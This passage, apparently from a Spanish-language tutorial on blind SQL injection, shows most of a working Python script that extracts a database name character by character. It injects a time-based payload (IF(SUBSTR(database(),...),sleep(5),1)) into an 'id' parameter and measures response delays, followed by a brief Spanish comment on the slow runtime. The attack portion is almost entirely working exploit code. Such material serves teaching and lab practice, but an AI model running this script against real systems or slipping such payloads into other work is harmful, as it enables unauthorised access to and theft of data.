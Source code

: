 ```python

		r = requests.get(sqli)

		time_end = time.time()

		if time_end - time_start >= 5:
			break

		length+=1

	for position in range(1,length+1):
		for character in characters:
			sqli = main_url + "?id=1'AND IF(SUBSTR(database(),%d,1)='%s',sleep(5),1)-- -" % (position,character)

			time_start = time.time()

			r = requests.get(sqli)

			time_end = time.time()

			if time_end - time_start >=5:
				string+=character
				print(f"El carácter de la posición {position} es: {character}")
				break

	return string

if __name__ == "__main__":
  string = make_SQLi()
  print(f"La información es: {string}")
```

Dado que estamos realizando una espera de 5 segundos por cada carácter, no es de extrañar que tardemos más en visualizar la respuesta.

![img](/assets/img/sqli/script_time1.png)

![img](/assets/img/sqli/script_time2.png)
